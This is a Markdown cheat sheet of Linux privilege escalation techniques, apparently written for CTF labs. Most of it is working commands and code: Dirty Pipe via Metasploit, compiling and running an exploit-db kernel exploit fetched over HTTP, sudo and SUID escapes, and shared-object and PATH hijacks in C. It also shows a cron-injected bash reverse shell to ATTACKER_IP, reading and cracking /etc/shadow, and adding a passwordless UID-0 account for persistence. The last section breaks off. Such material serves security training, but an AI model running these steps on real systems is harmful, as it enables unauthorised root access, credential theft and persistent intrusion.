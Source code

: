 ### ***Linux Privilege Escalation Examples***

<details>
<summary>Kernel Exploits</summary>
 <br> 
 Kernel Exploits
 ----------------------
Step 1: Identify & Search for Exploits
The first step is to identify potential exploits for the target system. You can use Searchsploit to find known vulnerabilities for the specific kernel version.
    
    cat /proc/version
    uname -a #will print the Kernel Version
    searchsploit linux 3.13.0-24
This will list exploits relevant to the kernel version. In this case, the target kernel version is 3.13.0-24.

To extract all the vulnerable kernel versions from that web you can do:

    curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '
![image](https://github.com/user-attachments/assets/5629083f-a755-4c84-be78-db0c17a3e6fe)

Tools that could help searching for kernel exploits are:

[suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
[suggester2](https://github.com/jondonas/linux-exploit-suggester-2)
[linuxprivchecker](http://www.securitysift.com/download/linuxprivchecker.py)

Always search the kernel version in Google, maybe your kernel version is wrote in some kernel exploit and then you will be sure that this exploit is valid.
Prerequisites

***Kernel Exploit using metasploit**

Target system must be Linux kernel 5.8 to 5.10.102 or 5.15.0 to 5.15.25 (vulnerable to Dirty Pipe).
You must have user-level access (shell or Meterpreter session) on the target.

Metasploit Framework is installed and running.
 Step-by-Step Exploitation Flow
 
Step 1: Gain Initial Access to Target
You can use any method to get a shell or Meterpreter session. For example:

     use exploit/multi/ssh/sshexec
    set RHOSTS 192.168.0.121
    set USERNAME kali
    set PRIVATE_KEY /path/to/id_rsa
    set CMD "id"
    run

If successful, this will give you a shell session.

Step 2: List Active Sessions


    sessions
Example output:

Active sessions

    Id  Name  Type            Information         Connection
    1         shell linux     kali@target         192.168.0.123:4444 -> 192.168.0.121:5555
Step 3: Use the Dirty Pipe Exploit Module

    use exploit/linux/local/cve_2022_0847_dirtypipe
Step 4: Set Required Options

    set SESSION 1           # Use the session ID from step 2
    set LHOST 192.168.0.123 # Your attack machine IP

You can also set the payload if needed:

    set PAYLOAD linux/x64/meterpreter/reverse_tcp
    set LPORT 4444

Step 5: Run the Exploit

    run
If successful, you’ll get a root-level Meterpreter session.

Step 6: Verify Privilege Escalation

    sessions -i 2   # (Assuming new session is ID 2)
    getuid
Expected output:

    Server username: root
Troubleshooting Tips
If SESSION is not set, Metasploit will throw:
Msf::OptionValidateError One or more options failed to validate: SESSION.
Ensure the target is vulnerable to Dirty Pipe.
Use sysinfo or uname -r in the session to check kernel version.

***Locate the Exploit**

Once you’ve identified a suitable exploit, use the locate command to find its full path and inspect the code.

    locate linux/local/37292.c
    cat /usr/share/exploitdb/exploits/linux/local/37292.c
This shows the contents of the exploit file, which you'll need to compile and execute.
![image](https://github.com/user-attachments/assets/3647680d-156d-453a-9f3b-8adb43c9396f)

Step 3: Check for Compiler and Permissions
Before proceeding with the exploit, ensure the necessary tools and permissions are available on the target system.

Check for GCC: Ensure that the GCC compiler is installed.

    which gcc
Check File Permissions: Verify that you have write permissions to the directory where you’ll save the exploit.

    ls -la
 ![image](https://github.com/user-attachments/assets/22116cd7-9f80-4db0-b85c-2120955a17bc)

Step 4: Copy and Rename the Exploit
Next, copy the exploit code to your Downloads folder and rename it to something like ofs.c.

    sudo cp /usr/share/exploitdb/exploits/linux/local/37292.c /home/kali/Downloads/
    mv 37292.c ofs.c
![image](https://github.com/user-attachments/assets/28fa1d5a-7532-42b9-bd10-1cfbabc9bcfa)

Step 5: Set Up an HTTP Server to Serve the Payload
On your attacker machine, start an HTTP server to serve the payload file (ofs.c) to the victim machine.

    updog -p 80
On the victim machine, use wget to download the exploit:

    wget http://10.6.42.239/ofs.c
![image](https://github.com/user-attachments/assets/b8dc99c8-d633-4f6c-a42c-8273b7f7e63f)

Step 6: Compile the Exploit
Now that the exploit is on the victim’s machine, compile the C code to create the binary that will escalate privileges.

    gcc ofs.c -o ofs
    ./ofs
Step 7: Verify Root Access
Once the exploit runs successfully, you should have root privileges. Verify by checking your user ID with whoami.

    whoami
You should see root, indicating that you’ve escalated to root privileges.
![image](https://github.com/user-attachments/assets/7729b24c-ccb3-49b2-af83-32e608213bcd)

Step 8: Locate the Flag
As a final step, search for the flag file on the system. You can use the following commands to locate and read the flag:

    find / -name flag1.txt 2>/dev/null
    cat /home/matt/flag1.txt
![image](https://github.com/user-attachments/assets/6fd0400a-4cff-4a01-a06d-1640757f4df3)

Summary
Privilege Escalation: This technique involves using kernel exploits to escalate user privileges.

Exploit Search: Use tools like Searchsploit to find relevant vulnerabilities for your target system.

Payload Delivery: Serve the payload using an HTTP server and download it on the target machine.

Compilation and Execution: Compile the C code and run it to gain root access.

Find and Read Flag: After gaining root privileges, locate the flag file to complete the task.


</details>

<details>
<summary>SUDO</summary>
 <br> 

Sudo Privileges
----------------------
Check Current Sudo Privileges
To check your current permissions related to sudo, you can use the following command:

    $ sudo -l
This will list the commands a user is allowed to run with sudo privileges. Based on this, an attacker may find a vulnerability to escalate privileges.
If a user has the ability to execute a command with sudo but doesn't have access to everything, we can search for payloads to leverage this.
search for payloads in https://gtfobins.github.io/

Exploit with Sudo
Assuming you can execute find with sudo, you can use the following command to spawn a shell with root privileges:

    sudo find . -exec /bin/sh \; -quit
![image](https://github.com/user-attachments/assets/1d174aff-f610-476e-bb4e-bb3d723280f9)

This command forces find to run a shell (/bin/sh) as root by using sudo. The -quit flag ensures that the find command stops executing immediately after spawning the shell.

Find Common Exploitable Binaries
Some binaries may be configured to allow root access when used with sudo. For example:

nano:
/usr/bin/nano is often a text editor installed on many Linux systems. If a user can run nano with root privileges, they can edit sensitive files, such as /etc/passwd.
![image](https://github.com/user-attachments/assets/e9e7c340-4896-4fe7-afec-00e1eb021b86)


less:
Similarly, less is a pager program, often used to view files. If improperly configured, it may allow privilege escalation:
![image](https://github.com/user-attachments/assets/ab8e392c-17f0-4c1e-be1d-61092cd8d27f)

Find the Flag
After successfully escalating privileges, you can search the system for the flag (or other sensitive files):

    find / -name flag.txt 2>/dev/null
Here, we look for a file called flag.txt and suppress any error messages.
![image](https://github.com/user-attachments/assets/d8883e72-a1a1-4fb4-bd40-dc2c3c781e46)

Find the Hash of Frank's Password
If the password file has been compromised or altered, you can often find hashes of user passwords, including Frank’s password:

      cat /etc/shadow | grep frank
Once you find the hash, you can try cracking it using tools like John the Ripper or Hashcat.
![image](https://github.com/user-attachments/assets/4ba1ec66-b320-40c7-8b8d-0d2d5fe25a1e)


Overwriting Files (Risky)

Warning: This command will overwrite important system files like /etc/passwd — don’t use this in production systems! This is useful only for Capture the Flag (CTF) scenarios or safe environments.

Here’s how you can potentially overwrite the /etc/passwd file to give yourself root access:
*** THIS WILL OVERWRITE THE PASSWD FILE, NOT A GOOD PRACTICE FOR CTF ***

    LFILE=/etc/passwd
    DATA='siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash\n'
    sudo find / -maxdepth 0 -fprintf "$LFILE" "$DATA"
Explanation:

This command creates a new user called siren in the /etc/passwd file with root privileges by adding a new line. could allow you to access the system as the siren user with root access. However, remember that overwriting critical system files can be dangerous.

Sudo version
Based on the vulnerable sudo versions that appear in:

    searchsploit sudo
You can check if the sudo version is vulnerable using this grep.

    sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"

---
Abusing Intended Functionality
------------------------------


    $ sudo apache2 -f /etc/shadow
    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
---
Summary:

sudo Privileges: If a user has sudo access to certain commands (like find, nano, or less), they might be able to escalate their privileges.

Exploit via sudo: Using sudo find . -exec /bin/sh \; or exploiting misconfigurations with common binaries, an attacker could gain root access.

Overwriting Critical Files: Be cautious when overwriting system files like /etc/passwd — it’s risky but useful for CTFs.

Finding the Flag: Once you have root access, locate the flag and/or crack password hashes from /etc/shadow.
</details>

<details>
<summary>CORN JOB</summary>
 <br> 

Cron jobs
----------------------
Cron jobs are scheduled tasks that run scripts or binaries at specified times. By default, they execute with the privileges of their owner, not the user who triggers them. If a cron job is owned by root but writable by an unprivileged user, that user can inject code to run as root.

1. Understand Where Cron Jobs Live
System-wide crontab:
/etc/crontab — defines global scheduled tasks.

Per-user crontabs:
/var/spool/cron/crontabs/<username> — only editable by the respective user.

Cron directories (/etc/cron.hourly, /etc/cron.daily, etc.)

If PATH variable defined inside a crontab, and one of the paths is writable, and the cron job doesn't refer to an absolute path, we can exploit.


    $ cat /etc/crontab
    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    * * * * * root backup.sh
   ![image](https://github.com/user-attachments/assets/d30b6e0d-abcc-46ad-9898-cdc241acff03)


In the example above, /home/karen is in the PATH and our user can write to it.

Confirm What’s Running and When
You can observe cron in action using a tool like pspy on the target:

Transfer and run pspy to monitor cron executions
[PSPY](https://github.com/DominicBreuker/pspy?tab=readme-ov-file)

    ./pspy64
You’ll see lines like:

[CRON] running /usr/local/bin/backup.sh

Inject Your Payload:

Create a /home/karen/backup.sh script which makes a SUID/SGID bit version of bash:
Since you have write access, append a reverse-shell or any root-shell payload:

Edit the script:

    nano /usr/local/bin/backup.sh
Append, for example, a simple bash reverse shell:

    # …existing backup commands…
    bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
Save and exit.
Check and make the script executable:

    $ chmod +x /home/karen/backup.sh

Now wait for the cron job to execute. When it does,Start a listener on your attacker machine:


    $ nc -lvnp 4444
    #
Wait up to one minute for cron to run the modified script.

You’ll receive a root shell connection.

Wildcards
---------

If the cron job script contains bash wildcards that reference files, and we can create files in the relevant directory, it may be possible to create files with filenames that can be used as command line flags.


    $ cat /etc/crontab
    ...
    * * * * * root /usr/local/bin/compress.sh


    $ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *

The tar executable has a checkpoint feature which displays progress messages every specific number of records. It also allows users to define an action that is executed during the checkpoint.

Create a script (runme.sh) which makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:


    $ chmod +x runme.sh

Create two files in the directory that the tar command is run in, with the filename set to the full command line options:


    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\ runme.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

File Overwrite
--------------

If a cron job script is writable, we can modify it and run commands as root:


    $ cat /etc/crontab
    ...
    * * * * * root overwrite.sh


    $ locate overwrite.sh
    /usr/local/bin/overwrite.sh
    $ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

The /usr/local/bin/overwrite.sh file is world-writable.

Overwrite the /usr/local/bin/overwrite.sh script with one that makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #
</details>

<details>
<summary>File Permissions</summary>
 <br> 

Writable /etc/passwd Privilege Escalation

The /etc/passwd file on Unix-like systems contains essential information about user accounts, including the username, UID, GID, home directory, and default shell. If this file is writable by an unprivileged user, it presents a significant security vulnerability.

1. The passwd File Format
Each line in /etc/passwd represents a user account in the following format:

       username:password:UID:GID:GECOS:home_dir:shell

Exploiting a Writable /etc/passwd
If an attacker can modify /etc/passwd and add an entry for a new user with UID 0 (the root user ID), they can gain root access without needing a password.

Steps to Add a New Root User
Check if /etc/passwd is writable: Verify if you have write access to /etc/passwd:

    ls -l /etc/passwd
If you have write permissions, proceed.

Add a new root user: Use echo to append a new user to /etc/passwd with UID 0 (root user). This will make the new user a root user with no password.

    echo newroot::0:0:root:/root:/bin/bash >> /etc/passwd
Explanation:

newroot is the username of the new account.

:: indicates no password.

0:0 are the UID and GID for root.

/root is the home directory (root's home).

/bin/bash is the default shell for this new user.

Switch to the new root user: Use su (switch user) to change to the newroot account:

    su newroot
You now have root privileges: After switching, you will have a root shell:

    # whoami
      root
Important Notes
No Password Needed: Since the new account has no password, the system won't prompt for one, and you can immediately log in as the new root user.

Permanent Access: The new root user will persist across reboots until /etc/passwd is modified again. This makes this method highly effective for establishing persistent root access.

</details>

<details>
<summary>SUID Binaries</summary>
 <br> 
Shared Object Injection
 ----------------------
Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
^^^^^^^^^^^^^^^^^^^^^^^

Shared Objects (.so) are the \*nix equivalent of Windows DLLs. If a program references a shared object that we can write to (even if it doesn't exist) we can run commands with the user context of the application.

Find SUID/SGID binaries:

    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    or
    find / -type f -perm -04000 -ls 2>/dev/null
    or
    find / -perm -u=s -type f 2>/dev/null
    
These commands search the system for files with the SUID (04000) or SGID (02000) bits set and list them. Files with these special permission bits could potentially allow privilege escalation.

 ![image](https://github.com/user-attachments/assets/8886aea9-5c2f-47cf-adb5-361f174fde67)

A good practice would be to compare executables on this list with GTFOBins. Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a [pre-filtered list](https://gtfobins.github.io/#+suid).

Base64 configured with the SUID bit, can be leveraged for privilege escalation.
Decoding Base64-Encoded Files
You can sometimes encounter base64-encoded files like /etc/shadow or /etc/passwd, which contain encrypted or sensitive data. To decode these files, use the following commands:

Example for /etc/shadow:

    LFILE=/etc/shadow
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/shadow.
![image](https://github.com/user-attachments/assets/a520482d-fa30-4ac5-876e-17b2c3c13bc7)

Example for /etc/passwd:

    LFILE=/etc/passwd
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/passwd.

Cracking Password Hashes
After you have decoded sensitive files like /etc/shadow or /etc/passwd, you can extract password hashes and attempt to crack them.

Cracking /etc/shadow and /etc/passwd
Decode both files and copy them to your system. Then, run the following commands to prepare for password cracking:

    unshadow user2pass user2 > passwd.txt  # user2pass = /etc/passwd, user2 = /etc/shadow

Use John the Ripper to crack the password hashes with a wordlist:

    sudo john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
This will attempt to crack the password hashes using the rockyou.txt wordlist.
![image](https://github.com/user-attachments/assets/fcef5969-8533-4831-818a-946f88f12ed3)

Directly flag can be achived using base64 ablites: 
Example for a specific file (e.g., flag3.txt):

      LFILE=home/ubuntu/flag3.txt
      base64 "$LFILE" | base64 --decode
This command decodes the contents of flag3.txt.
![image](https://github.com/user-attachments/assets/cc23f201-dde6-4043-9ac5-9580c5648988)

Use strace to find references to shared objects:

    $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
    access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY)      = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libdl.so.2", O_RDONLY)       = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libm.so.6", O_RDONLY)        = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libc.so.6", O_RDONLY)        = 3
    open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

The shared object /home/user/.config/libcalc.so is referenced, but it doesn't exist. Luckily it is in a writable directory.

Create a C program (libcalc.c) and compile it to a shared object:


    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));
    void inject() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -shared -fPIC -o libcalc.so libcalc.c

Move the libcalc.so shared object to the path referenced by the SUID binary:


    $ mkdir -p /home/user/.config
    $ cp libcalc.so /home/user/.config/libcalc.so

Now run the SUID binary, it should give you a root shell immediately:


    $ suid-so
    Calculating something, please wait...
    root@debian:~# 

Symlink
^^^^^^^

TODO

Environment Variables - Relative Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env
    /lib64/ld-linux-x86-64.so.2
    5q;Xq
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    service apache2 start

The "service" command doesn't have an absolute path. When it is called, \*nix will try to find it by traversing the PATH environment variable. We can modify the PATH variable and create a malicious version of the service binary which will spawn a root shell when it is run.

First create a C program (service.c):


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

Compile it to our malicious binary:


    $ gcc -o /tmp/service service.c

Add /tmp to the start of the PATH environment variable and export it:


    $ export PATH=/tmp:$PATH

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env
    #

Environment Variables - Absolute Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env2
    /lib64/ld-linux-x86-64.so.2
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    /usr/sbin/service apache2 start

The /usr/sbin/service command seems to be interesting, however it has an absolute path and cannot be edited.

Some versions of Bash (<4.2-048) and Dash let you define functions with the same name as an absolute path. These then take precedent above the actual executable themselves.

Define a bash function "/usr/sbin/service" that creates an SUID/SGID version of bash:


    $ function /usr/sbin/service() { cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p;}

Export the new function:


    $ export -f /usr/sbin/service

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env2
    #

Bash also supports a script debugging mode, and uses the PS4 environment variable to define a prompt for the debugging mode.

We can get an instance root shell:


    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash && chown root:root /tmp/rootbash && chmod +s /tmp/rootbash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/rootbash -p'
</details>
<details>
<summary>Capabilities</summary>
 <br> 
What Are Capabilities?
----------------------
In Unix-like systems, capabilities are used to provide more granular control over the privileges of processes or binaries, rather than granting full root access. This method allows administrators to assign specific privileges to processes that would typically require higher-level permissions.

For example:

A SOC analyst might need to run a tool that initiates socket connections, but they don't require full root access. By using capabilities, the administrator can grant just the necessary permission to that specific tool, rather than giving the analyst root privileges.

How Capabilities Work
Instead of giving a program full root privileges, a system administrator can set specific capabilities on a binary to allow it to perform certain actions that would otherwise require elevated privileges. For instance, a binary might be given the capability to bind to privileged ports or set user IDs without granting the user full root access.

You can check which capabilities are assigned to a binary or process using the getcap tool.

Checking Capabilities on a System
To list all the binaries with specific capabilities set on your system, use the following command:

getcap -r / 2>/dev/null
This command recursively checks all files starting from the root directory and lists those with capabilities set. The output might look something like this:

/usr/bin/vim = cap_setuid+ep
This means that the vim binary has the cap_setuid capability, which allows it to change its user ID (UID) to any value, including root (UID 0).

Example of Exploiting Capabilities for Privilege Escalation
Let's say the vim binary has been granted the cap_setuid capability. This capability allows vim to change the user ID of the current process. If we can use this capability to set the user ID to 0 (root), we can effectively escalate our privileges.

Check the Capabilities: We use the getcap tool to see that vim has the cap_setuid capability set.

getcap /usr/bin/vim
Output might be:

/usr/bin/vim = cap_setuid+ep
Escalate to Root Using vim: With the cap_setuid capability, we can craft a command that uses vim to escalate to root. The following command utilizes Python scripting inside vim to change the user ID to 0 (root) and then spawn a root shell:

./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Breakdown of the Command:
:py3 import os: This imports the Python os module within vim.

os.setuid(0): This changes the user ID of the current process to 0, which is the root user.

os.execl("/bin/sh", "sh", "-c", "reset; exec sh"): This replaces the current process (which is vim) with a new shell (/bin/sh), and it spawns a root shell.

Result:
This command will execute the Python code inside vim, which changes the user ID to 0 (root) and opens a shell with root privileges. The result is a root shell.

After executing this, running whoami will show:

# whoami
root
You now have root access without needing to log in as the root user.

Conclusion
Capabilities offer a more granular control over process privileges by allowing specific permissions, such as changing user IDs or binding to privileged ports, to be granted to a binary.

If a binary like vim is configured with the cap_setuid capability, it can change its UID to root and escalate privileges.

Always ensure to audit and manage capabilities carefully to avoid inadvertent privilege escalation opportunities.

This method highlights the importance of reviewing and controlling which capabilities are granted to binaries on your system.
</details>
<details>
<summary>PATH Hijacking</summary>
 <br> 
 What is the PATH Environment Variable?
 ----------------------
In Linux, PATH is an environmental variable that tells the operating system where to look for executable files. When you run a command in the shell (such as ls, cat, or any custom script), Linux searches for that command in the directories listed in the PATH variable.

For example:

If a command is not built into the shell or if its absolute path is not specified, Linux will start searching for it in the directories defined under the PATH variable.

The PATH variable typically contains directories like /usr/bin, /bin, /usr/local/bin, etc., where most of the system binaries are stored.

How to Check the PATH?
You can check the current directories in your PATH by running:

echo $PATH
This will show a colon-separated list of directories, like this:

/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/games:/usr/games:/snap/bin
Exploiting Writable Folders in PATH
If a folder listed in PATH has write permissions for your user, you could potentially hijack an application by placing a malicious script or executable in that folder. This could trick the system into running your script instead of the legitimate binary when the application is called.

Writable Folders Search: To identify writable directories in the PATH, you can use the following command:

find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
This will search for writable folders under the /usr directory and display the results. Some of these directories may be part of the PATH and could be hijacked.

Example output might look like this:

/usr/local
/usr/bin
Hijacking a Command: If a writable folder is found in PATH, you can replace a system command with a malicious script. For example, you could create a script named thm in a writable directory like /tmp and hijack the thm command.

Example of Hijacking Using Writable Folders in PATH
Let’s consider the following example:

Check the Current PATH: We can check if /tmp is in the PATH by running:

echo $PATH
If /tmp is not in the PATH, we can add it. This is done using the following command:

export PATH=/tmp:$PATH
This command prepends /tmp to the beginning of the PATH, making it the first directory that the system will search for executables.

Creating a Malicious Script: Next, we can create a malicious executable in /tmp. In this case, we can copy the /bin/bash binary to /tmp and rename it to thm:

cp /bin/bash /tmp/thm
chmod +x /tmp/thm
Hijacking the Application: Now, if the system tries to run the thm command, it will search in /tmp first (because we added it to the PATH). Since we have placed our malicious thm script in /tmp, the system will execute our script instead of the legitimate one.

When the user runs the thm command, the system will execute the bash shell from /tmp, giving the attacker a shell with the same privileges as the user who ran the command.
</details>
<details>
<summary>Startup Scripts</summary>
 <br> 

Startup scripts are stored under /etc/init.d, and are usually run with elevated privileges.

Find world-writable startup scripts:


    $ find /etc/init.d -perm -o+w -type f -exec ls -l {} \; 2>/dev/null
    -rwxr-xrwx 1 root root 801 May 14  2017 /etc/init.d/rc.local

Edit the script and add some code that creates an SUID/SGID bash shell:


    cp /bin/bash /tmp/rootbash
    chown root:root /tmp/rootbash
    chmod +s /tmp/rootbash

Now restart the remote host, and once the host is restarted, spawn a root shell:


    $ /tmp/rootbash -p
    #
</details>
<details>
<summary>Configuration Files</summary>
 <br> 

Configuration files are usually stored in /etc.
----------------------
Check writable files to see if we can introduce misconfigurations (e.g. if /etc/exports is writable, we can define NFS shares with root squashing turned off).
</details>
</details>
<details>
<summary>LD_PRELOAD</summary>
 <br> 
Environment variables:

* LD_LIBRARY_PATH - A list of directories in which to search for RLF libraries at execution time.
* LD_PRELOAD - A list of additional, user-specified, ELF shared objects to be loaded before all others.

